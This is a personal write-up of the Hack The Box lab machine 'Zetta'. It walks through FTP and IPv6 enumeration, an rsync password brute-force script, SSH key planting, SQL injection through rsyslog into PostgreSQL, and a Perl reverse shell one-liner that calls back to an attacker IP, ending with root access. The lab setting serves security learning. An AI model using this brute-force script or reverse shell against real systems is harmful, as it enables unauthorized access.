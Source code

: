 ```yaml
---
title: Zetta HTB Writeup
date: '2020-02-22 17:12:00'
categories: ["htb"]
banner_img: /img/Zetta.png
---
```


# Zetta

### Summary: A hard box _for me_ but in general I learned a lot. I did get help on the part with rsyslog and logger.


## User Part.

Port 80 and port 22 were open. I start to look at the webserver first. From the webserver I get a pair of credentials in order to login to ftp.

![FTP_creds](https://user-images.githubusercontent.com/16364370/74613409-21fb6a80-5106-11ea-8ef8-4b755bf6cd59.png)


By using the credentials I log into the ftp server but I can't find something which will trigger my attention for further movement. I use `gobuster` but nothing. I do again at the website and read about *Dual-Stack* and another one which says something about FTP enabled with FXP. And also that they support RFC2428. So I go and search for all of these terms to see what they are.

### Dual-Stack 

From [Cisco](https://www.cisco.com/c/dam/en_us/solutions/industries/docs/gov/IPV6at_a_glance_c45-625859.pdf): Dual stack means that devices are able to run IPv4 and IPv6 in parallel. It allows hosts to simultaneously reach IPv4 and IPv6 content. 

### FXP 

From [Wikipedia](https://en.wikipedia.org/wiki/File_eXchange_Protocol): File eXchange Protocol (FXP or FXSP) is a method of data transfer which uses FTP to transfer data from one remote server to another (inter-server) without routing this data through the client's connection. Conventional FTP involves a single server and a single client; all data transmission is done between these two. In the FXP session, a client maintains a standard FTP connection to two servers, and can direct either server to connect to the other to initiate a data transfer. The advantage of using FXP over FTP is evident when a high-bandwidth server demands resources from another high-bandwidth server, but only a low-bandwidth client, such as a network administrator working away from location, has the authority to access the resources on both servers. 

This also poses some risks: 

From [Wikipedia](https://en.wikipedia.org/wiki/FTP_bounce_attack): FTP bounce attack is an exploit of the FTP protocol whereby an attacker is able to use the PORT command to request access to ports indirectly through the use of the victim machine, which serves as a proxy for the request.


### RFC2428

From [IETF](https://tools.ietf.org/html/rfc2428): 
This document provides a specification for a way that FTP can
communicate data connection endpoint information for network
protocols other than IPv4. 

-------------------------------------------------------------

So I am thinking maybe we can get ipv6 address from this host by using rfc2428 which will forward my commands on my host and I can listen and get the ipv6. I Use the command from EPRT which is explained inside the RFC and I also use the quote before it to send the command to the remote ftp. The command also contains my ipv6 ip so it can reach me.

![Getting_ipv6](https://user-images.githubusercontent.com/16364370/74613416-435c5680-5106-11ea-809b-15caa92ae8d2.png)


I scan the ipv6 address with nmap and find out another port.

`nmap -6 -p dead:beef::250:56ff:feb9:b059 -vvv`

Port 80 gives me the same website but with different ftp credentials. I try them and I can indeed access the ftp. But can't do much.

![Ipv6_ports](https://user-images.githubusercontent.com/16364370/74613428-54a56300-5106-11ea-9e8e-fbde3c3c7ee5.png)


Upon using nc to connect to port 8730 I see a message.

![rsync_port_8730](https://user-images.githubusercontent.com/16364370/74613440-6ab32380-5106-11ea-83ae-5e657000de80.png)

I switch to rsync command and try to connect to this by using the rsync. If i only do rsync it takes me throught ssh, which is on port 22. I found out that I can connect to any port by using `rsync://URL`

![rsync_deamon_option](https://user-images.githubusercontent.com/16364370/74613480-b960bd80-5106-11ea-83fd-7863a0861534.png)

First of all I try to list all available modules. Which are basically something like directories configured for access.


![rsync_modules](https://user-images.githubusercontent.com/16364370/74613522-0f356580-5107-11ea-8e3b-337713d693c9.png)



I will try not to get the configuration file for rsync.

![rsync_config_files](https://user-images.githubusercontent.com/16364370/74613528-21170880-5107-11ea-9c9b-696a0acb0165.png)


I can see a lot of directories and also why `/etc/` is not showed. I also see a juicy directory which gives me a clue about a potential username.

![roy_homedir](https://user-images.githubusercontent.com/16364370/74613537-31c77e80-5107-11ea-856e-e7a5411193a8.png)


Now I try to get `/.ssh/id_rsa` from that directory.

![rsync_password_prompt](https://user-images.githubusercontent.com/16364370/74613545-4277f480-5107-11ea-9dc7-1a824e0d3071.png)

Unfortunatelly to do that I need a password. The password from ftp didn't work. So I try and create a script which will brute force the password for me.

```
import pexpect
with open('rockyou.txt', 'r') as f:
	for i in f:
	   i = i.strip('\n')
           child = pexpect.spawn('rsync -avr rsync://roy@[dead:beef::250:56ff:feb9:b059]:8730/home_roy/.ssh/id_rsa /tmp/zetta/')
	   child.expect ('Password:')
	   child.sendline (i)
	   print("\n"+"PASSWORD USED IS: " + i + "\n")
	   print(child.before.decode())
	   child.interact()

```
I redirect stdout with > to a file and then check the file to see which one didn't error out. I found out the password is `computer`.


Now I use that password to get `/.ssh/id_rsa` file. But it seems there isn't any.

![Trying to get ssh key](https://user-images.githubusercontent.com/16364370/74613556-57ed1e80-5107-11ea-9889-9adb9977872a.png)

With rsync I can also send files to a machine. I do it to send my own public key.

I create a key-pair with ssh-keygen. After I rename my private key to something like roy_priv.key and then give it chmod 600. The public key I rename it as `authorized_keys` because this filename will be sent to the server, and ssh inside the box.

![Instead Uploading the ssh key](https://user-images.githubusercontent.com/16364370/74613570-74895680-5107-11ea-9a39-81d4692340f3.png)


Now I can get user.txt on roy's home directory. I also find a .tudu.xml file which includes what the user roy? have done until this time.

I get some hints there about _postgresql errors_,_Rework syslog configuration to push all events to the DB_, and something about .git. 

After a bit of enumeration, I found out about a .git folder inside /etc/rsyslog.d/. I use `git log -p`. And I see the changes of the commit, with green color. There is a sql query from syslog to postgres. 

![git logs](https://user-images.githubusercontent.com/16364370/74688663-255b2880-51d0-11ea-91d3-b5a82fb67e4b.png)


After a lot of help from other and searching, I need to do a [sql injection], which is not a regular one. First of all I see the postgresql logs in real time with the command `tail -f /var/log/postgresql/postgresql-11-main.log`, and in another terminal I will use *logger*. 

`
The logger command provides an easy way to add messages to the /var/log/syslog file from the command line or from other files.
`

Now on the logger command I will give  `-p 'local7.info'` flag which will log the messages as information level in the local7.info facility.

If I add `'` in the log the error log file get's a syntax error. Postgres escapes single quotes with backslash. I will escape that with $. I can use `$` instead of a single quote.


I read this [post](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) and I try to get a shell as postgres user. Yes there is a postgres user and yes I can login to that user by looking into /etc/passwd.

I create a file on /tmp/ which includes a ruby reverse shell. 

rev file contains:

`perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.45:7979");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

and then I execute some commands which will give me shell as postgres.

![Command execution](https://user-images.githubusercontent.com/16364370/74688693-41f76080-51d0-11ea-857a-e7d3ce2f72b5.png)


After some enumeration I see there is postgresql history saved. If I enter psql and press up arrow key or see .psql_history file I can see a password which was used to give user postgres a password.

![Postgres history](https://user-images.githubusercontent.com/16364370/74688706-4e7bb900-51d0-11ea-8e25-329749c30e3b.png)


I tried to use the password by logging with ssh as user postgres but not. So maybe the password belongs to another user. I check the .tudu again at the end.

![Password scheme](https://user-images.githubusercontent.com/16364370/74688719-5d626b80-51d0-11ea-844c-09078e7224dc.png)


And then I use su and give password sup3rs3cur3p4ass@root and get shell as root user.